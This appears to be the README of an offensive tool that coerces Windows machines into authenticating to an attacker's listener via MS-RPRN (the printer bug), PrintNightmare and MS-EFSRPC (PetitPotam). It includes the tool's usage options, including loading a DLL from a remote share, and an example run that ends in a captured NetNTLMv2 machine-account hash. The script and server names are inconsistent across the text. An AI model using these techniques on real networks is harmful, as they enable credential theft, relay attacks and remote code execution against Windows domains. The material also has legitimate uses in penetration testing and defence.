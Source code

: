 # Coercion

Coerce Windows hosts to authenticate to other machines.

# Techniques

Coercion of remote systems is not limited to the protocols and functions listed below, there are numerous others as well.

## MS-RPRN

Specifies the Print System Remote Protocol, which defines the communication of print job processing and print system management between a print client and a print server.

The Print System Remote Protocol provides the following functions:
- Management of the print system of a print server from a client.
- Communication of print job data from a client to a print server.
- Notifications to the client of changes in the print server's print system.

Microsoft's Print Spooler is a service that handles various tasks related to document printing. `MS-RPRN` is Microsoft's Print System Remote Protocol. The `RemoteFindFirstPrinterChangeNotificationEx` RPC call is part of the `MS-RPRN` protocol. It defines the communication of print job processing and print system management between a print client and a print server. 

Coercion is triggered by a RPC call to the SMB `\pipe\spoolss` named pipe through the `IPC$` share.

## PrintNightmare

Coercion of the remote system does occur along with remote code execution of a DLL hosted on the SMB server.

## MS-EFSRPC

The Microsoft Encrypting File System Remote (`MS-EFSRPC`) protocol can be used to trigger coercion through the `EfsRpcOpenFileRaw` function.

Coercion is triggered by a RPC call to the SMB `\pipe\LSARPC` named pipe through the `c681d488-d850-11d0-8c52-00c04fd90f7e` interface.

Coercion can also be triggered by a RPC call to the SMB `\pipe\EFSRPC` named pipe through the the `df1941c5-fe89-4e79-bf10-463657acf44d` interface.

**NOTE**: This method is not as prevalent as making calls to the `\pipe\LSARPC` SMB named pipe.

# Usage

```
usage: spool_sploit.py [-h] [--share SHARE] [--lhost LHOST]
                       [-hashes LMHASH:NTHASH] [-port destination port]
                       {spoolsample,nightmare,lsarpc,efsrpc} target

Coerce remote systems to authenticate

positional arguments:
  {spoolsample,nightmare,lsarpc,efsrpc}
                        attack technique to execute
  target                [[domain/]username[:password]@]<targetName or address>

optional arguments:
  -h, --help            show this help message and exit
  --share SHARE         path to DLL (ex: '\\10.1.10.199\share\Program.dll')
  --lhost LHOST         listening hostname or IP
  -port destination port
                        remote SMB server port

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
```

# Example

Start the included SMB server (`smb_server.py`) script to capture the coerced authentication.

```
root@testing:# ./smb_share.py SHARE /tmp
[2021-07-19 22:56:36] [*] Config file parsed
[2021-07-19 22:56:36] [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[2021-07-19 22:56:36] [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[2021-07-19 22:56:36] [*] Config file parsed
[2021-07-19 22:56:36] [*] Config file parsed
[2021-07-19 22:56:36] [*] Config file parsed
...
```

Run `coercion.py` specifying the callback server where the SMB serer is listening.

```
root@testing:# ./coercion.py lsarpc FOO/user1:Password1@10.1.10.201 --lhost 10.1.10.199
[*] 10.1.10.201...connected...exploit success
```

The following response should be received indicating the remote system has authenticated.

```
...
[*] Incoming connection (10.1.10.201,62207)
[*] AUTHENTICATE_MESSAGE (FOO\SYSTEM1$,SYSTEM1)
[*] User SYSTEM1\SYSTEM1$ authenticated successfully
[*] SYSTEM1$::FOO:aaaaaaaaaaaaaaaa:56ac0251e9c3c31d70c53b12339cd0ca:010100000000000000e8fa26c87cd7016f2f1b845ed8edd900000000010010007600620054004f005100500046006e00030010007600620054004f005100500046006e000200100044004e0044005900650075004c0050000400100044004e0044005900650075004c0050000700080000e8fa26c87cd70106000400020000000800300030000000000000000000000000400000f6548ddfa5057090d73f724aae0b1c493729803f3fb606d894d0c4a21e7871a40a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e0031002e0037002e003100390039000000000000000000
[*] NetrGetShareInfo Level: 2
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.1.10.201,62207)
[*] Remaining connections []
...
```

# Resources

- https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1
- https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31
- https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/64ea7ac4-32ef-44f6-ab51-ea2b5a1c2390
- https://gist.github.com/S3cur3Th1sSh1t/d9a71ac641432f64e78a6426b5d0b303
- https://github.com/topotam/PetitPotam